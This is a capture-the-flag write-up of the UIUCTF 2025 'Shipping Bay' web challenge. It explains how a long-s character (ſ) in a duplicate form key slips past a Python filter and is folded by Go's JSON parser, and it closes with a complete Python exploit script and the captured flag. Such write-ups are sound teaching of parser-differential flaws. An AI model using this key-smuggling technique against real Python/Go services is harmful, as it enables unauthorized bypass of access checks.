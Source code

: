 ```yaml
---
title: UIUCTF 25 - Shipping Bay
date: 2025-07-30
lastmod: 2025-07-30T13:00:30+02:00
categories:
  - writeup
  - uiuctf25
tags:
  - web
  - python
  - go
  - parser differential
  - medium
authors:
  - Valenter
---
```

*UPS lost my package, so I'm switching to a more reliable carrier.*

Here we are in Chapter Three of our Cyberspace Odyssey for uiuctf; this time, we are tasked with retrieving a particular cosmic cargo that got lost during astral shipping.

![Homepage](/uiuctf2025/shipping-bay/screenshot-1.png)

A real flashback to the future with its Y2K/Vaporwave Classic Windows 98 UI, proof that even in the space age, fashion remains cyclical.

## Unpacking the interplanetary cargo

Let's try to create a new shipment.

![shipping](/uiuctf2025/shipping-bay/screenshot-2.png)

We can pick from a variety of options here, but it doesn't really matter, the space courier will always lose our package

```
https://shipping-bay.chal.uiuc.tf/?status=oops+we+lost+the+package
```

Prodding at the code, there doesn't seem to be much we can work with, this debugging flag looks interesting at first:

```python
if __name__ == '__main__':
	app.run(debug=True)
```

but it's merely a red herring, we have no way of triggering the Werkzeug debug console.

Among the various supply types, there is one that piques our interest:

```go
//main.go
func sendShipment(shipment Shipment) string {
    if shipment.SupplyType == "flag" {
        if flag, exists := os.LookupEnv("FLAG"); exists {
            return flag
        }
        return "uiuctf{fake_flag}"
    }
    return "oops we lost the package"
}
```

But in order to retrieve our package, we first have to go through two different checks, this one in Go and the first one in `index.py`:

```python
def create_shipment():
    shipment_data = {k.lower(): v for k, v in request.form.items()}

    if shipment_data['supply_type'] == "flag":
        return "Error: Invalid supply type", 400

    shipment_status = subprocess.check_output(["/home/user/processing_service", json.dumps(shipment_data)]).decode().strip()

    return redirect(url_for('index', status=shipment_status))
```

Flask collects all submitted fields into a dict, lowercasing each key, so we can't simply enter two identical `supply_type` parameters or use capital letters to trick it into accepting our input.

Note, however, that this still allows us to enter two different `supply_type` fields in our input, as long as the second one is worded ever-so-*slightly* differently.

But how can we bypass it while ensuring that Go still reads a properly formatted `supply_type = flag` from the resulting Json?

## Resistance is futile

Thankfully, my teammate Leonardo came to the rescue and found [this article](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/#case-insensitive-key-matching) that mentions this exact scenario.

We are going to use this character: `ſ` (Latin small long‑s, U+017F, unchanged by `.lower()`), which enables us to construct our final **payload**:

```python
    form = [
        ("origin",       uid),
        ("destination",  "Luna City"),
        ("weight",       "1 ton"),
        ("priority",     "Low"),
        ("vessel",       "USS Tomorrow"),
        ("supply_type",  "Tools"),           # passes the first python filter
        ("ſupply_type",   "flag"),           # overwrites the go parser
    ]
```

But **what** is going on under the hood?

On the **Python** side, only the ASCII‐key `"supply_type"` is checked, with our payload the ASCII key is still `"Tools"`, so this check passes.

```python
json.dumps(shipment_data)
subprocess.check_output(["/home/user/processing_service", json.dumps(shipment_data)])
```

Json marshalling turns the payload into:

```json
{
  "origin":"…",
  …,
  "supply_type":"Tools",
  "ſupply_type":"flag"
}
```
*note that both keys appear distinctly*

On the **Go** (processing_service) side:

- Go’s JSON unmarshaller scans keys in order and, upon each match, sets the struct field
```go
type Shipment struct {
    …
    SupplyType string `json:"supply_type"`
    …
}
```
- It matches keys using **Unicode case‑folding** (`strings.EqualFold`), which maps both ASCII “s” and the long‑s “ſ” to the same fold class “s”.
- Therefore:

	1. On seeing `"supply_type":"Tools"`, it sets `SupplyType = "Tools"`.

	2. On seeing `"ſupply_type":"flag"`, it also matches the same field (since “ſ” folds to “s”) and overwrites it with `"flag"`
This gives rise to a sort of pseudo-homographic **parser differential** attack.

#### Final script
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import re, uuid, requests
from urllib.parse import unquote_plus

BASE   = "https://shipping-bay.chal.uiuc.tf/"
CREATE = f"{BASE}/create_shipment"

def pretty(loc):
    if not loc:
        return None
    decoded = unquote_plus(loc)
    print("\n───── Location (decoded) ─────")
    for line in decoded.splitlines():
        print("│", line)
    print("───────────────────────────────")
    m = re.search(r"uiuctf\{[^}]+\}", decoded)
    return m.group(0) if m else None

def main():
    uid = f"Earth‑{uuid.uuid4()}"
    form = [
        ("origin",       uid),
        ("destination",  "Luna City"),
        ("weight",       "1 ton"),
        ("priority",     "Low"),
        ("vessel",       "USS Tomorrow"),
        ("supply_type",  "Tools"),           #passes Python filter
        ("ſupply_type",   "flag"),           #second field - passes Go's parser
    ]

    r = requests.post(CREATE, data=form, allow_redirects=False, timeout=5)
    print(f"[+] HTTP {r.status_code}")
    for k, v in r.headers.items():
        print(f"    {k}: {v}")

    flag = pretty(r.headers.get("Location", ""))
    print("\n[+] FLAG:", flag or "not found")

if __name__ == "__main__":
    main()
```
### ALL YOUR FLAGS ARE BELONG TO US

**`uiuctf{maybe_we_should_check_schemas_8e229f}`**
